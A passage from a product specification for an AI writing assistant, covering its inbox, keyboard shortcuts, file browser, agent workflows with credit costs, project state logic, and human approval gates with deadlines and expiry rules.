| Chat reply while backgrounded | ● | ● | ○ | on |
| Finding streamed / phase finished | ○ | ○ | ○ | off (Advanced opt-in per project) |
| Product updates | — | — | ● | off |

Rules: one notification per event per channel; all deep-link; a run's notifications collapse into one Inbox item that updates in place (collapse key = run id); OS-level notifications only when the project is not focused; quiet hours (default off) delay run-finished and chat but never approvals or spend gates; preferences are per event type, server-side, shared by web and mobile (REQ-IDE-47; REQ-ACCT-1; REQ-MOBILE-9/19).

**Inbox** (`/app/inbox`): the cross-project attention list using the same row component as the Needs-you group, with inline **Approve** (opens the artifact in a side sheet so the user reads before approving) and **Read**. Standing escalations from response letters land here as **Decisions** (`decision_requests`, ledger C18) with "decide / dismiss"; Run-rounds stall escalations are Decisions too — as are (v0.3) escalated obligations, horizon-expired deferrals ("Deferred in round 1, horizon reached: decide / re-defer / drop"), and the §6.8 stall escalation, which now fires for hand-run rounds as well (REQ-OBJ-5/6). **One ordering, one badge rule** (review 12 #30): rows sort blocked-on-you first (approvals and decisions, by soonest deadline, then unread finished runs, then stale voices); the Rail badge counts **only approvals and decisions** — "something is blocked on you" — never finished runs or stale voices (REQ-IDE-2 amended). Returning to a project with an unread finished run lands on the walkthrough card with the deliverable on the Page — letter for reviews, "what changed" for revisions, v1 for drafts (REQ-IDE-48). *(ADR-128, R7HOME.2b, 2026-11-06: a project opens to its head draft's Page — the overview's admin block (approvals policy, deadlines, standing notes, voice) moved to the Project settings page and decisions surface in the Inbox + Timeline; the walkthrough-card landing is kept. REQ-IDE-41 kept: no new modal — the Next-step card in the Timeline tab is dismissible, the title is inline, Project settings is a page.)*

### 5.12 Keyboard and command palette

| Keys | Action |
|---|---|
| `⌘K` | Command palette (search projects, artifacts, findings, commands; `/` prefixes verbs; `@` picks scopes) |
| `⌘1` / `⌘2` / `⌘J` | Toggle Browser (Files) / Timeline / Desk |
| `⌘⇧M` · `⌘⇧F` · `⌘⇧L` · `⌘⇧T` | View menu · Focus mode · paper theme · Triage mode |
| `⌘S` | Mark restore point (named) |
| `⌘⇧R` | Run next step (opens the run sheet for the state function's verb) |
| `⌘⇧D` / `⌘⇧E` / `⌘⇧V` | Draft / Review (Edit) / reVise run sheets (`⌘⇧A` is reserved — it collides with select-related chords; review 12 #17) |
| `⌘G` · `⌘I` · `⌘,` · `?` | Go to oldest open approval · Inbox · Project settings · cheat sheet |
| `J`/`K` · `P` · `A D R F E` · `Enter`/`Esc` · `⌥J`/`⌥K` | Findings navigation, Apply, and dispositions — **scoped to Margin / Findings-list focus only**; inert while the caret is in the Page |
| `⌘⇧C` · `[`/`]` · `⌘Z`/`⌘⇧Z` | Compare with previous · previous/next version · undo/redo (own edits only) |

Feed density (Summary / Details; Verbose under Advanced) is a menu on the Live feed tab, not a chord.

**Palette** sections: *Run* (verbs, with the state function's next step pinned first with its estimate — REQ-CHAT-28), *Go to* (artifacts, sections, findings by number), *Recent runs*, *Threads*, *Settings*. Typing `/verb` opens the **structured row** of §7.2 — scope pill, lever chips, free text — and the palette's completion turns typed flags into chips; `--` never appears in a default surface, help card or empty-state chip (review 12 #11). Verbs that cost credits always open the run sheet; the palette never launches a run directly (REQ-IDE-49). The verb grammar and full verb list are §7.2.

```
┌ ⌘K ───────────────────────────────────────────────────────────────┐
│ > review @section:III                                             │
├───────────────────────────────────────────────────────────────────┤
│ Run                                                                │
│  ▶ Review §III "The Harms Turn" · Academic · ≈ 410 cr        ⏎    │
│  ▶ Review v3 (whole) · next step · ≈ 1,300 cr                     │
│  ▶ Fact-check §III · ≈ 120 cr                                     │
│  ▶ Review §III as 2 variants (Academic, Essay) · ≈ 820 cr         │
│ Go to                                                              │
│  § III in v3 · Finding v2/17 · Outline v1                          │
└───────────────────────────────────────────────────────────────────┘
```

---
### 5.13 The artifact browser

The convention's directories are an implementation detail; the user sees **typed sections**, never a filesystem tree [design/2 §9; design/3 §2]. The pane's user-facing label is **Files** (R13).

| Section | Contains | Visibility class (§8) |
|---|---|---|
| **Outline** | the outline (versioned if edited after v1) | SE |
| **Drafts** | version rail entries; working head; companion docs | SE until frozen → SR |
| **Rounds** | per round: drafting note · claim ledger (table) · discourse report · second read · Editor's letter · response letter · response ledger (via findings) · run reports · walkthrough; the piece brief is I, surfaced at the scope card | SR (piece brief I) |
| **Research** | the Drafter's source library (index + notes; SR as a list, note bodies on click), the Assistant's chat sources and Research-run notes, searchable; the Editor's **fetched URLs only** | SR / H-with-URLs |
| **Voice** | linked voice summary card, staleness pill, voice charter (read-only + "Add guidance"), member/register used | SR / I |
| **Assets** | figures (incl. working figures), uploaded files, bibliography (CSL-JSON) | SE |
| **Advanced** (disclosure) | drafting dossiers per version (commissioning brief, voice brief, structure plan, Drafter's claim ledger, fidelity audit); cut lists (1.x); vulnerability maps and adjudications (1.x) | I |

Hidden entirely (never listed): Editor working notes and research note bodies; hold-out identity before calibration; corpus notes; consolidation notes; run transcripts.

Every artifact row and Page header carries a **provenance badge** (`Drafter · Draft run 12 · Writing` / `Editor · Review run 14 · Letter` / `You` / `You (edited from Drafter v2)` / `Imported (.docx)` / `Corrected`) that links to the producing run and phase (ledger D21), a **lock-state icon** (✎ editable · 🔒 immutable · 👁 inspect-only · ⛔ sealed, count only), and a **freshness** note when a describing artifact is stale relative to its subject ("drafting note describes v1 as delivered; v1 has since been edited"). Agent-memory artifacts open read-only; the voice charter offers "Add guidance" instead of editing (REQ-IDE-35/36/37).

---

## 6. Workflows, approvals, and agent seats

### 6.1 The common contract for every workflow

Every workflow is a **run kind** on the run model (§12) declared in code as `{inputs, phases[], approval?, artifacts[], cost_class, rigor_applicable, genres[], phase_subset_of?}`; the run sheet and progress UI are generated from that declaration, never hand-built (REQ-WF-1). Runs freeze their input version; agents never write into a human-editable document — a run that writes a draft produces a new version, a run that produces suggestions produces proposals the user accepts (REQ-WF-2). Every run sheet shows the estimate in credits and dollars, the guaranteed 1.5× cap, the levers that move the estimate, and the balance after the hold; consent is explicit above 500 credits or 25% of balance (REQ-WF-3).

Cost classes (list-price COGS on a frontier model; ×1.4 and ÷$0.01 for credits): C0 < $0.50 · C1 $0.5–3 · C2 $3–15 · C3 $15–50 · C4 $50–100+. **Credit triples below are model-tier figures at Standard rigor (Base / Balanced / Frontier)** on the price card's piece shapes — the same 1× / 2.2× / 4.5× multipliers as §12.3 (review 11 #1 corrected the v1.0 label, which named them by rigor). **Rigor multipliers** relative to Standard, provisional: Review — Quick ≈ 0.6× (claim cap, discourse off, second read off), Full board ≈ 1.2× (near-final line depth, different-family second read); Draft — Quick ≈ 0.5×, Full board ≈ 1.3×; Revise — Quick ≈ 0.55×, Full board ≈ 1.25×; Profile voice — Quick Voice is its own tier (§9.2). Hence the §14.3 and §15.2 figures: a ≤3k-word Review on Base ≈ 300 at Standard, ≈ 180 at Quick, ≈ 350 at Full board. Every figure is a model output from research/10's parametric model, **provisional until one instrumented run per workflow replaces it** (§16.3 #1); the estimator's shape per workflow is §12.2.

### 6.2 The workflow catalogue

Workflows are verbs; the noun names the artifact; each has a seat (REQ-PROD-3). Seats are the three user-facing seats plus Persona builder and System (§6.6); a workflow that another seat's skill implements (Steelman in the Editor namespace, Map the field in the Drafter namespace) is listed under that seat.

| Verb (skill) | Seat | Phases (user-visible) | Approval | Artifacts | Credits at Standard rigor (Base / Balanced / Frontier) | Phase |
|---|---|---|---|---|---|---|
| **Draft** (`draft-from-outline`) | Drafter | Reading the outline → Binding voice → Planning the structure → **Approve plan** → Verifying sources → Writing (§ i/n, streaming) → Tightening → Independent audit (≤3) → Delivered | Approve plan | Draft v1; Drafting note (SR); commissioning brief, voice brief, structure plan, Drafter's claim ledger, fidelity audit (I) | 2k 190/430/830 · 5k 400/940/1,830 · 8k 830/1,950/3,830 · 15k 1,460/3,500/6,890 | MVP |
| **Review** (`editorial-review`) | Editor | Reading the piece → **Confirm scope** (informational; blocks at Full board — §6.4) → Reading the prose → Checking claims → Mapping the field → Second read (independent) → Weighing the argument → Writing the letter (reconciling the second read is the letter phase's first sub-step, not a phase) → Delivered — the manifest order of §12.2; fan-out happens inside phases, never between them | Confirm scope | Editor's letter; Claim ledger; Discourse report; Second read; Rubric; piece brief, argument notes, craft notes (I) | 2k 250/570/1,100 · 5k 560/1,300/2,520 · 8k 1,240/2,930/5,750 · 15k 2,080/4,950/9,730 | MVP |
| **Revise** (`respond-to-review`) | Drafter | Reading the draft, then the review → Checking the Editor's evidence → Triage → **Approve triage** → Revising (moves in order) → Verifying new claims → Independent gap check (≤3) → Delivered | Approve triage | Draft v(N+1) `origin=response_to_review`; Response letter (flags → Decisions inbox); Triage ledger frozen; voice charter (I, add-guidance only) | 2k 220/510/990 · 5k 450/1,060/2,070 · 8k 900/2,140/4,220 · 15k 1,570/3,760/7,420 | MVP |
| **Profile voice / Update voice** (`bootstrap-persona`; `WorkflowKey` `profile_voice` / `refresh_voice` / `calibrate_voice`) | Persona builder | Counting the corpus → **Approve sample** → Close reading (parallel per piece) → Measuring voice → Recording positions → Calibration → Packaged | Approve sample | Voice profile; Calibration report; exemplars, positions, continuity (SR); voice print, structure, lexicon (I); corpus notes, hold-outs (H) | Quick Voice 60–150 (Base); Full Profile at 50k words 310/760/1,510 | MVP (Compose voice UI 1.x) |
| **Outline** (`outline-from-research`) | Drafter (from the Assistant's thread) | Harvesting the chat → Sorting claims → Proposing a spine → Listing gaps → **Approve outline** | Approve outline (waits) | Outline (typed; per-bullet provenance; `[unverified]` marks) | 40 / 90 / 180 (small thread) – 150 / 330 / 650 (long thread) | MVP |
| **Research** (`research_burst`; no upstream skill — a Rhema-owned skill in `packages/protocols`) | Assistant | Planning the search → Fetching and noting (≤N sources; N from the plan card) → Distilling | none (the plan card's estimate is the consent) | Research note with source cards in `agents/assistant/research/`; no originality verdict, no thesis choice | C1–C2: 25 / 55 / 110 (5 sources) – 120 / 260 / 540 (20 sources) | MVP (REQ-SPEC-15) |
| **Fact-check** (`fact-check-only`) | Editor | Inventorying claims → Checking claims → Ledger delivered | none | Claim ledger (immutable; anchored verdict badges) | 5k/20 claims ≈ 230/540/1,050; `cost_per_verified_claim.fact_check` ≈ 11/26/51 | MVP |
| **Figure** (`visualize`) | Drafter | Reading the data → Proposing a spec → Rendering → Captioning → Proposal card | preview-before-insert *is* the gate | Figure asset (spec + data + provenance → SVG); `[unverified data]` badge if no provenance | 10 / 22 / 45 – 40 / 90 / 180 | MVP (Q-8; R14) |
| **Cut to length** (`cut-to-length`) | Drafter | Reverse outlining → Budgeting sections → **Approve cut list** → Cutting → Seam read | Approve cut list | Draft v(N+1) `origin=cut`; Cut list (restorable) | 70 / 155 / 315 (2k) – 200 / 440 / 900 (8k) | 1.x |
| **Line edit** (`line-edit`) | Drafter | Loading your voice → Scanning patterns → Proposing changes | none (accept/reject in editor) | Suggestion set; pattern note ("3 em-dashes over your ration") | 5k ≈ 140 / 310 / 630 | 1.x |
| **Titles** (`title-and-deck`) | Drafter | Reading → Candidates | none | Title candidates with promise/payoff | 7 / 15 / 32 | 1.x |
| **Abstract** (`abstract-and-keywords`) | Drafter | Reading the ledger → Drafting → Tracing | none | Abstract & keywords, traceable per sentence | 12 / 26 / 54 | 1.x |
| **Reverse outline** (`reverse-outline`) | Drafter (also run inside Review as a sub-step) | Reading → Mapping paragraphs → Diffing | none | Reverse outline + diff vs plan | 25 / 55 / 110 | 1.x |
| **Interview me** (`elicit-from-author`) | Drafter | Generating questions → Chat interview → Guidance written | none | Guidance entries | 3 / 6 / 12 | 1.x (ships MVP-cheap as the Approve-plan card's "Answer questions" action) |
| **Steelman** (`steelman`; runs in the Editor namespace) | Editor | Restating fairly → (optional pause) → Opposition research → Opposing essay → Vulnerability map → (optional) Blind adjudication | optional after restatement | Steelman essay (neutral register); Vulnerability map; Adjudication (reasons, never a score) | 350 / 770 / 1,575 (short) – 900 / 1,980 / 4,050 (long) | 1.x |
| **Map the field** (`discourse-map`; runs in the Drafter namespace) | Drafter | Searching the strata → Mapping positions → Judging originality → Finding open ground → Forecasting reception → **Choose a thesis** | Choose a thesis (terminal) | Field map; Open ground (with the originality verdict); source notes | 700 / 1,540 / 3,150 – 1,600 / 3,520 / 7,200 | 1.x (extends Research) |
| **Run rounds** (`loop-to-convergence`) | System (orchestrator loop; each inner run keeps its own seat) | Round k: Review → Revise → **Continue?** → criterion → stall check → Convergence report | Continue? each round; Approve triage inside each Revise unless `auto` | Convergence report (rubric trajectory, major-issue lineage, spend per round) | 2k × 3 rounds ≈ 3,200 / 7,000 / 14,400; 15k ≈ 26,000 / 57,000 / 117,000 | 1.x, gated; `auto` only on Studio+ |
| **Submission pack** | Drafter | — | — | cover letter, disclosure statement, formatted files | — | 1.x |

Later (specified, not shipped): Peer-review simulation, Literature map (OpenAlex), Structured dialogue (composes Steelman + Map the field), Translate register / Repackage for venue (need composites UI), Sharpen thesis (covered by Assistant + Map the field), Reader test (only as *k* assigned-stance second reads labeled "forecast"). The run-kind registry accepts new kinds without schema change (REQ-WF-17).

**REQ-SPEC-15 (Research at MVP).** `research_burst` is an MVP run kind in the Assistant seat: it is the target of the plan card's *Run as background research* (REQ-CHAT-10) and of `/research` at MVP; its output is a distilled research note with source cards under *Research → Chat sources*, never an outline, an originality verdict or a thesis. **Map the field** (1.x) is a different, Drafter-seat workflow that extends it with strata search, positions, originality and *Choose a thesis*; when it ships, `/research --map` (chip: *Map the field*) routes to it and bare `/research` keeps routing to Research.

Workflow-specific requirements carried verbatim: Draft never fans out the writing phase; the editor pane shows one streaming section at a time with a per-section budget bar (REQ-WF-4). The Draft re-plan loop is capped at 2; the third failure escalates as an Approval ("Sources for claim X could not be verified — proceed with `[unverified]`, cut, or stop?") (REQ-WF-5). A Review is keyed by (version, run) (REQ-WF-6). Re-review of v(N+1) reads the response letter first and does not re-raise well-rebutted findings; the run report states "N carried, M closed, K new" — **computed by the orchestrator from obligation rows at delivery** and asserted against the Editor's sidecar counts (a mismatch is a delivery-validation warning, not a failure); the re-review's mirror carries a read-only `obligations.json` in the letter-writing context only — never the second read, whose draft-only rule is unchanged — and its findings sidecar may declare `carriesObligationId` (REQ-WF-7 amended v0.3; REQ-OBJ-4; §11.7). Memo runs support `verified against user-supplied source` verdicts and never fetch internal data from the web (REQ-WF-8). Dispositions set in the Findings UI seed the triage ledger; the run may add rows but never overrides a user disposition without an escalation (REQ-WF-9). "Operator reachable" = the Approve-triage policy in §6.4 (REQ-WF-10, amended: the default is *wait*). Staleness is computed from four inputs; Refresh voice costs only the delta (REQ-WF-11). Compose voice ships its schema in MVP, UI 1.x (REQ-WF-12). Fact-check, Line edit and the second read are phase-subset runs of Review reusing its implementations and artifact types; unchanged claims are not re-verified (REQ-WF-13). Figure data without provenance renders `[unverified data]`; Review treats every figure's data as Tier-1 claims (REQ-WF-14). Run rounds: `max_rounds ≤ 5`, budget mandatory, `auto` requires Studio+ and both caps, stall detection halts and escalates (REQ-WF-15). Steelman is evidence-bound; with research off it is labeled "argument only — no sources checked" (REQ-WF-16).

### 6.3 The project lifecycle

Four entry points: Start from scratch, Upload an outline, Upload a draft, and (1.x) Upload a draft + review. The user-visible state is a **pure function** of `(outline?, versions[], reviews[], responses[], runs[], accepted_version?, exports[], archived_at?)` shared by the project card pill, the Suggested-next button, the palette's enabled verbs, notifications and the mobile app (REQ-PROD-9; ledger K8). Canonical keys and labels:

| Key | Pill | Definition (derived) | Suggested next |
|---|---|---|---|
| `empty` | **Empty** | no outline, no draft | Start from scratch / Upload |
| `researching` | **Researching** | chat has ≥1 Assistant turn; no outline | *Make an outline* (once the chat holds ≥1 claim-shaped message) |
| `outlined` | **Outlined** | outline exists; no draft | *Draft v1* |
| `draft` | **Draft** | latest vN has no review | *Review* (Standard; "Included" on an unused trial entitlement) |
| `reviewed` | **Reviewed** | latest vN reviewed, unanswered | *Read the Editor's letter* (primary) with *Revise from this review* directly beneath it, enabled the instant the letter route has been visited — never on scroll depth, never a disabled verb with a lecture (review 12 #10); on dossiers above 30 findings the card reads "Let the Drafter propose a triage" (§5.7) |
| `edited_by_you` | **Edited by you** | user edited a reviewed vN → v(N+1) `origin=human_revision`, orphaning the review | *Revise using your edits* or *Review v(N+1)* |
| `accepted` | **Accepted** | user marked a version accepted (suggested when verdict ∈ {accept, minor}) | *Export* |
| `exported` | **Exported** | ≥1 export of the accepted version | *Archive* (soft) |
| `archived` | **Archived** | runs blocked; read-only | — |
| overlay `running` | **Running** | a run holds a write lock or is executing | the run card |
| overlay `needs_you` | **Needs you** | any run in `waiting_gate` | the Approval card |

```
if archived                       → none
elif running                      → none (show run)
elif approval waiting             → the Approval
elif accepted && !exported        → Export
elif no outline && no draft       → (chat has claims ? Outline : Start)
elif outline && no draft          → Draft v1
elif latest.reviewed && !answered → (letter opened ? Revise : Read the Editor's letter)
elif latest.origin == human_revision && orphaned review → Revise using your edits
elif !latest.reviewed             → Review (notch = project default, Standard; trial shows "Included")
```

**REQ-SPEC-3.** This state function and the run state machine of §12.4 are the only two state models in the product; web, mobile, notifications, the palette and the Inbox derive from them and never store a `status` column.

Secondary chips (up to two) come from the protocol's `workflow_availability='default'` and the state (e.g. Op-ed in *Draft* over cap → "Cut to 750 (WaPo)"; Academic in *Reviewed* → "Fact-check the 3 new figures"). Every workflow remains reachable from the palette with a disabled-reason tooltip (REQ-PROD-10).

**Human edits and the orphaned review.** Editing an unreviewed draft is in place. Editing a reviewed draft forks to v(N+1) immediately; the Findings UI **follows the text** — findings are projected onto v(N+1) by quote re-anchoring with a "from Review of v2" label, and the banner reads "Editing v3 · findings from v2 follow your text" (§5.4; review 12 #7). *Revise using your edits* runs `respond-to-review` with `review = vN review, base = v(N+1)`, treats the user's edits (including Applied suggestions) as made moves, auto-dispositions unanchored findings `mooted` for confirmation at triage, and marks human-added claims *pending verification* for the next Review (REQ-PROD-11; REQ-DATA-25/26). **Accept** is explicit; accepting freezes the version and enables Export and Submission pack; further rounds re-open it.

**Concurrency the user can rely on:** never two writers of one draft — a writer-run takes a lock shown as a badge and the Page is read-only until it ends (comments become guidance; *Cancel run to edit* on the banner); reads (Fact-check, Steelman, Titles, a parallel Review under another protocol) never lock. Working copies during runs and parallel section drafting are 1.x.

### 6.4 Approvals (human gates)

Gates are called **Approvals**; each is named for the artifact under decision; each is an approve-with-deadline card (Q-7 on by default; soft by mechanism) rendered identically in the run card, the Inbox, and mobile. A parked run consumes **no compute** — the sandbox exits and resumes from committed artifacts — so waiting is free; the one cost is that a writer-run holds the project's write lock while it waits, shown with a *Cancel run* release (REQ-GATE-4; REQ-RUN-8).

**Ruling R3 — deadline per Approval** (`onExpiry` is the `Gate.onExpiry` enum value of §11.3):

| Approval (kind) | Workflow · after | Shown | Default deadline | On expiry (`onExpiry`) | Reason for the ruling |
|---|---|---|---|---|---|
| **Approve plan** (`approve_plan`) | Draft · after Planning the structure | structure plan (editable fields) + commissioning brief + voice brief; open questions | **24 h**, then proceed | the skill's conservative path; open questions resolved conservatively and listed in the drafting note (`proceed_conservative`) | A plan is read, not skimmed; hours let the user approve from the train next morning; the downstream cost (C4) is already consented at the run sheet. [design/6 §3.1 over design/2's 30 min and design/5's 48 h] |
| **Confirm scope** (`approve_scope`; **REQ-SPEC-17**) | Review · after Reading the piece | piece brief (thesis as read, claim inventory by tier, research agenda, venue bar) + **re-priced estimate** | **Informational by default** (`blocking:false`): the run proceeds immediately and the card stays on the run card ("Here is what the Editor thinks you're writing — wrong? Stop and correct") until the letter phase; corrections become queued guidance for the remaining phases. **Blocking, 2 h then proceed as proposed**, when: (a) rigor is Full board; (b) the protocol or venue changed since the last review; (c) the policy is *Wait for me at each*. **Blocking and waiting (a spend gate)** when the re-priced estimate exceeds the cap consented at the run sheet. | `proceed_as_proposed` (blocking cases); `wait` (spend case) | Auto-proceed can never spend beyond consent, so at Quick/Standard the gate protected nothing financial and cost every review up to two hours of idle time (review 12 #4); at Full board a misread is the most expensive misread in the product, which is exactly Q-7's "long and expensive" case (R15). [design/6 §3.1; design/9 §1.4] |
| **Approve triage** (`approve_triage`) | Revise · after Triage | the triage ledger as the disposition UI; escalations pinned first as "decisions only you can make"; primary button **Approve proposals** | **wait for you** (no deadline). Per-project opt-in: 24 h then proceed with the agent's proposals, escalations resolved conservatively and flagged at the top of the letter | `wait`; opt-in: `proceed_as_proposed` | The ledger is the human's decisions by design (precedence: guidance > charter > voice); auto-proceeding writes a C4 draft against dispositions nobody read, and every downstream artifact records them as the author's. Reminder notifications still fire; a run parked here for 30 days is auto-cancelled with partials kept and the hold released (§14.6). [design/7 open q. 7 over design/2, 6, 9] |
| **Approve outline** (`approve_outline`) | Outline · terminal | proposed outline with per-bullet provenance, gaps, unverified count, the *next* estimate | **wait** | `wait` | Nothing downstream is waiting; the outline is the user's own commitment. (REQ-CHAT-15) |
| **Approve sample** (`approve_sample`) | Profile / Update voice · after Counting the corpus | census, exclusions, "We'll keep 2 pieces aside (Feb 2024, Jul 2025) to test the profile against writing it hasn't seen", estimate and cap, sample cap / calibration / model tier knobs | **24 h**, then proceed | `proceed_as_proposed` within the cap consented at launch | Persona runs are never on a project's critical path; auto-proceed never spends beyond consent. (REQ-PERSONA-12; open question §16.3) |
| **Approve cut list** (`approve_cutlist`) | Cut to length (1.x) · after Budgeting | cut list with reasons; protect toggles | **2 h**, then proceed | `proceed_as_proposed` (apply the cut list) | Cheap (C1), restorable (cut list preserved). |
| **Choose a thesis** (`choose_thesis`) | Map the field (1.x) · terminal | open-ground candidates | wait | `wait` | Terminal hand-off to Outline. |
| **Continue?** (`continue_rounds`) | Run rounds (1.x) · each round boundary | round summary, spend vs budget, criterion status | per autonomy: *Ask each round* (default) waits; *Run all rounds* proceeds; *Ask at every Approval* waits at every Approval | `wait` / `proceed_as_proposed` | Q-7; unbounded loops degrade. |
| **Spend** (`confirm_cost` for runs created without a sheet in front of the user — §5.6; `spend_overrun` mid-run when the cap would be exceeded; `resume_partial` when a cap was hit) | any | estimate / overrun / committed phases and cost so far | **wait** (confirm_cost 7 days → cancel; resume_partial 30 days → accept partial) | `cancel` / `wait` / `accept_partial` | The alternative is silent billing. (**REQ-IDE-17**) |
| **Refusal** (`refusal`) | any phase ending in a provider refusal or validation failure (including a structured-output parse failure, §11.1) | what was declined | 7 days → cancel | `cancel` | design/5 §2.6 |

Mechanics common to every card (REQ-GATE-2; REQ-PROD-4; REQ-IDE-16 amended):

1. The card shows the artifact, the deadline (relative and absolute) or "waiting for you", the do-nothing outcome in one sentence, cost so far and remaining estimate, and the actions **Approve** (always **pre-filled with the agent's recommendation**, so it is one click — universal, not only in onboarding; review 12 #9) · **Approve and run autonomously** (secondary, out of the way; turns off later approvals in this run) · **Edit guidance / Keep planning** (queues guidance; for Approve plan re-runs the plan step once) · **Wait for me** (`hold`: removes the deadline for this card) · **Stop**. A countdown shows the deadline; the countdown **pauses while the user has the artifact open** (activity within 60 s), so a slow reader is never timed out mid-read; activity pings extend the deadline in bounded increments (+10 min, capped at +24 h) so a stuck tab cannot hold a writer lock forever (review 13 F9).
2. **Presence timer (REQ-SPEC-18; review 12 #9).** While the user has the project open in a focused tab and is *not* reading the card's artifact, a gate that would auto-proceed shows a **10-minute** timer instead of hours ("proceeding in 9:40 unless you say otherwise"); blurring the tab or closing the project reverts the card to its long deadline. Gates whose default is *wait* never get a presence timer. This is the coding-IDE feel — the agent waits briefly for a present user, then gets on with it — without risking the walk-away case. Auto-proceed always emails the decision and its cost (§5.11).
3. **Per-project approval policy** (three values plus per-run `--wait` / `--auto` override; changing it does not alter an open card's deadline — REQ-GATE-3): *Named approvals* (default; the table above) · *Wait for me at each* (no deadlines anywhere; the scope card blocks) · *Run to completion* (only spend gates and refusals open; `Run rounds` ignores this and gates every round). Trial preview drafts (§14.3) pre-approve Approve plan.
4. **The user edits decisions; the agent keeps authorship of prose** (REQ-GATE-5). On Approve plan the structured parts — spine claims (reorder, strike, add with a note), section rows (order, target words, function), cut list toggles, apparatus budget — are editable fields; every change is diffed into a `Guidance` record **and serialized back into the plan file the next phase reads** (REQ-SPEC-9, §11.5), and the run performs at most one bounded re-plan (REQ-GATE-6). On Confirm scope the editable fields are stage, phase toggles, venue/audience corrections, concerns, and scope narrowing. On Approve triage the disposition overrides write ledger rows with `actor: user` and are serialized into the response ledger file; bulk actions open one consolidated preview.
5. **Standing guidance:** any card can be answered with "…and remember this for this project" — a scoped rule listed and retirable in project settings and shown on every run sheet as "3 standing notes apply ▸" (**REQ-GATE-10**).
6. The decision is recorded as `Decision {gate, action, by: user | 'timeout' | 'policy' | 'trial', guidance?, at}` and shown on the round card permanently ("approved by you at 14:02 with 3 changes" / "auto-continued at 14:32" / "skipped by your Run-to-completion policy") (REQ-RUN-5/6). **REQ-DATA-35 (amended).** A gate is a durable row; the container is released at gate open; the deadline is per kind (some kinds wait); expiry runs the kind's `onExpiry`. **REQ-DATA-36 (amended).** *Wait for me at each* opens a gate after every phase; *Run to completion* opens only spend and refusal gates and writes a `Decision{by:'policy'}` row for every named gate it resolves, so a skipped gate still has a row (this reconciles REQ-RUN-5 with REQ-DATA-36). Expiry and resolution are both conditional updates (`UPDATE gates … WHERE resolved_at IS NULL`) and act only if a row changed; the expiry job re-reads `deadline_at` on fire and reschedules itself if the deadline moved (REQ-RUN-6 amended; review 13 F9).
7. Notifications carry the do-nothing outcome and a deep link; a reminder fires at 1 h before expiry and 10 min before; expiry emits `gate.resolved{decision:'expired'}` (REQ-GATE-8). On mobile and phone-width web: *Approve* (with biometric step-up above the spend threshold on the app), *Wait for me*, *Stop*, and disposition changes for triage (REQ-GATE-7; REQ-MOBILE-10/12).
8. C0/C1 proposal-producing workflows (Titles, Abstract, Reverse outline, Line edit, Interview me, Figure, Research) have **no Approval**; the user's acceptance of the proposal is the gate (Q-7 refinement, §16.1).

```
┌ Structure plan · Draft v1 · waiting for you · auto-continues in 23 h 12 m ───────┐
│ If you do nothing: the draft is written from this plan as shown.                 │
│ Spent 61 cr · remaining ≈ 880 cr (cap 1,410)                                     │
│ Spine                              Sections                     words           │
│ 1 ☰ The harms turn answers, not …  I  Opening: the nothing-to-hide…   700 ▾     │
│ 2 ☰ Solove's taxonomy was …        II The harms turn                 1,200 ▾    │
│ 3 ☰ ✕ (struck: "the EU detour")    III ☰ Doctrine after Citron        1,100 ▾    │
│ + add a claim…                     IV ☰ Why both framings survive    900 ▾      │
│ Cut list   ☑ the Bentham aside (restore)   ☐ the 2014 survey                     │
│ Promise/payoff · Apparatus budget · Deviations from the outline   (read-only ▸)  │
│ Guidance to the Drafter (3 changes captured)  [ Keep §I under 700; … ]          │
│ ☐ Remember "keep openings under 700 words" for this project                     │
│ [ Approve ]  [ Approve, run autonomously ]  [ Keep planning ]  [ Stop ]          │
└──────────────────────────────────────────────────────────────────────────────────┘
```

**REQ-GATE-1 (amended).** Gate kinds `confirm_cost, approve_plan, approve_scope, approve_triage, approve_outline, approve_sample, approve_cutlist, choose_thesis, continue_rounds, spend_overrun, resume_partial, refusal` exist in the `gates` table; each opens a card in the run card, the Inbox and mobile; `gate.opened` is a user-visible event; `approve_scope` carries `blocking: boolean`.

**REQ-SPEC-1 (rewritten in v0.2; one rule set, review 11 #2).** Each gate kind's default deadline and `onExpiry` are the table above. Per-kind project overrides (`Project.approvalOverrides`) may **lengthen** a deadline, **remove** it (`null` = wait), or — for kinds whose default is *wait* (`approve_triage`, `approve_outline`, `choose_thesis`) — **add** a deadline of **≥ 2 h** with `onExpiry: proceed_as_proposed`; they may never shorten a defaulted deadline below its default and never apply to spend or refusal kinds. Exactly four mechanisms resolve a gate without a human, and each writes a `Decision` row naming itself: expiry (`by:'timeout'`), the *Run to completion* policy (`by:'policy'`), the *Approve and run autonomously* action taken earlier in the same run (`by:'policy'`), and the trial preview pre-approval of Approve plan (`by:'trial'`). The presence timer (§6.4 item 2) shortens only the *display* of an auto-proceed deadline for a present user and is itself a fifth `by:'timeout'` path, recorded with `presence:true`. Spend gates (`confirm_cost`, `spend_overrun`, `resume_partial`) never auto-proceed under any policy, override, or timer.

### 6.5 Rigor, steering, and guidance

**Rigor** is one dial with three notches bundling the skills' opt-out phases, the model tier default, and the second-read model; the Approvals policy is a separate control (autonomy ⊥ planning) (REQ-PROD-5).

| Notch | Review | Draft | Revise | Profile voice | Model default | Second read |
|---|---|---|---|---|---|---|
| **Quick** | intake, argument, craft, letter + rubric; fact-check limited to the 5 most load-bearing claims; discourse off | grounding off (`[unverified]` marks), audit off | repair research off, gap check off | calibration off, sample ≤ 6 | Base | off |
| **Standard** | all seven phases | grounding on, audit on | research on, gap check on | calibration on, sample ≤ 12 | Balanced (Base for research phases) | on, same tier |
| **Full board** | all seven; near-final line depth | all on | all on, Frontier | all on, sample = census | Frontier (Balanced for research) | on, **different model family** |

An **Advanced** disclosure unbundles per-phase toggles (fact-check / discourse / second read / grounding / audit), model tier, and `stage` (early / near-final — otherwise a protocol default, shown on the scope card); every change updates the estimate live. Disabled phases appear as `phase.skipped` in the timeline and are declared in the delivered letter or note. Rigor and the resolved flag set are frozen at run creation; changing rigor mid-run is cancel-and-restart with partial artifacts reused (REQ-RUN-9). The Quick notch is a named profile (phases, claim cap 5, findings cap 40, word cap 6,000 on trial, model tier, estimator constants) shared by trial and paid tiers (ledger C22). The letter of a Quick review is labelled "Quick review" and says what the full board adds.

**Steering** — primitives at phase granularity at MVP, section granularity in 1.x [design/6 §4; design/5 §3.7; review 12 #28; review 13 F6]. **REQ-IDE-18.** Running cards expose Pause, Stop (keep partials), a note for the next phase, and comment-on-finding at MVP; queued guidance with section-boundary delivery, batched inline comments and edit-plan-via-comments arrive in 1.x; cancelled and failed phases are refunded.

| Primitive | Behaviour | Phase |
|---|---|---|
